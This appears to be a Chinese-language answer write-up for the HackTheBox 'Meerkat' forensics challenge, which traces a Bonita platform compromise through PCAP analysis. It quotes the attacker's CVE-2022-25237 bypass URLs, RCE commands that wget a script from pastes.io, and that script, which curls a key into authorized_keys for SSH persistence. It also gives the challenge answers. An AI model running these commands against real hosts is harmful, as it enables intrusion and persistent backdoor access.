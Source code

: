 # Meerkat

:::info Sherlock Scenario

As a fast growing startup, Forela have been utilising a business management platform. Unfortunately our documentation is scarce and our administrators aren't the most security aware. As our new security provider we'd like you to take a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

作为一个快速发展的初创企业，Forela 一直在利用一个商业管理平台。不幸的是，我们的文档资料有限，我们的管理员也不太重视安全。作为我们的新安全服务提供商，我们希望你能看一看我们导出的一些 PCAP 和日志数据，确认我们是否受到了（或者没有受到）侵害。

:::

## 题目数据

[题目附件 - meerkat.zip](./meerkat.zip)

:::info Password

hacktheblue

:::

## Task 1

> 我们相信我们的商业管理平台服务器已经遭到了入侵。请确认正在运行的应用程序名称。

在流量包中，使用以下语句进行筛选

```plaintext
(ip.dst == 172.31.6.44 || ip.src==172.31.6.44) && http
```

在 url 部分，可以发现这份字符串

```plaintext
bonita
```

经过搜索，可以定位到这个 `bonitasoft` 这个平台

```plaintext title="Answer"
bonitasoft
```

## Task 2

> 我们相信攻击者可能使用了暴力破解攻击类别的子集 - 所进行的攻击名称是什么？

查看后续的一些 http 包，可以发现产生了大量失败的登录请求，可以怀疑攻击者正在尝试进行凭据爆破

```plaintext title="Answer"
Credential Stuffing
```

## Task 3

> 被利用的漏洞是否有 CVE 编号 - 如果有，是哪一个？

:::note

为了分析方便，这里将

```plaintext
(ip.dst == 172.31.6.44 || ip.src==172.31.6.44) && http
```

筛选器得到的分组结果导出为新的 pcap 文件，再进行分析

可能会导致 tcp 流的编号与原始 pcap 包不一致

:::

根据后续的流量，可以发现攻击者登陆成功后 POST 形式发送了一个 zip 文件

![wireshark POST zip](img/image_20231205-160549.png)

并且后续进行了利用

![wireshark POST zip 漏洞利用](img/image_20231206-160635.png)

根据所得到的信息，可以定位到 `CVE-2022-25237` 这个漏洞编号

```plaintext title="Answer"
CVE-2022-25237
```

## Task 4

> 攻击者的利用是通过在 API URL 路径上附加了哪个字符串来绕过授权过滤器的？

将攻击者访问的 api url 请求进行提取

```plaintext
/bonita/API/portal/page/;i18ntranslation
/bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8
/bonita/API/portal/page/133;i18ntranslation
```

可以分析出字符串为 `i18ntranslation`

```plaintext title="Answer"
i18ntranslation
```

## Task 5

> 在凭证填充攻击中使用了多少组用户名和密码的组合？

简单统计一下 http POST url=="/bonita/loginservice" status_code==204 的请求即可

```plaintext title="Answer"
56
```

## Task 6

> 哪个用户名和密码组合成功了？

查看凭据爆破的最后一次请求

```plaintext
POST /bonita/loginservice HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Cookie: x=x
Content-Length: 59

username=seb.broom@forela.co.uk&password=g0vernm3nt&_l=enHTTP/1.1 204
Set-Cookie: bonita.tenant=1; SameSite=Lax
Set-Cookie: JSESSIONID=772FE3C83B1A0815EC3AFA1C098B40E9; Path=/bonita; HttpOnly; SameSite=Lax
Set-Cookie: X-Bonita-API-Token=d350c469-2660-4504-9bea-4dbfa41ed9a4; Path=/bonita; SameSite=Lax
Set-Cookie: BOS_Locale=en; Path=/; SameSite=Lax
Date: Thu, 19 Jan 2023 15:39:17 GMT
Keep-Alive: timeout=20
Connection: keep-alive
```

即可得到

```plaintext
username: seb.broom@forela.co.uk
password: g0vernm3nt
```

```plaintext title="Answer"
seb.broom@forela.co.uk:g0vernm3nt
```

## Task 7

> 如果有的话，攻击者使用了哪个文本分享网站？

在流量中，发现这么一个会话

```plaintxt
GET /bonita/API/extension/rce?p=0&c=1&cmd=wget https://pastes.io/raw/bx5gcr0et8 HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: JSESSIONID=745EE4F7243DA99264F07781FBB9B4E3; X-Bonita-API-Token=1ccb3fac-8abd-4cc0-a52e-bb5811198cdf; bonita.tenant=1; BOS_Locale=en

HTTP/1.1 200
Cache-Control: no-store, no-cache, must-revalidate, proxy-revalidate
Date: Thu, 19 Jan 2023 15:38:53 GMT
Accept-Ranges: bytes
Server: Restlet-Framework/2.3.12
Content-Type: application/json;charset=UTF-8
Content-Length: 544
Keep-Alive: timeout=20
Connection: keep-alive

{"p":"0","c":"1","cmd":"wget https://pastes.io/raw/bx5gcr0et8","out":"--2023-01-19 15:38:52--  https://pastes.io/raw/bx5gcr0et8\nResolving pastes.io (pastes.io)... 66.29.132.145\nConnecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 113 [text/plain]\nSaving to: \u2018bx5gcr0et8\u2019\n\n     0K                                                       100% 57.8M=0s\n\n2023-01-19 15:38:53 (57.8 MB/s) - \u2018bx5gcr0et8\u2019 saved [113/113]\n\n","currentDate":"2023-01-19"}
```

```plaintext title="Answer"
pastes.io
```

## Task 8

> 请提供攻击者用于在我们主机上获得持久性的公钥文件名。

对上文流量中使用的远程载荷 `https://pastes.io/raw/bx5gcr0et8` 下载下来进行分析

```shell title="https://pastes.io/raw/bx5gcr0et8"
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

```plaintext title="Answer"
hffgra4unv
```

## Task 9

> 您能确认攻击者修改的文件以获取持久性吗？

上文的载荷中就有

```plaintext title="Answer"
/home/ubuntu/.ssh/authorized_keys
```

## Task 10

> 您能确认这种持久性机制的 MITRE 技术 ID 吗？

Google Search: `MITRE technique authorized_keys`

```plaintext title="Answer"
T1098.004
```

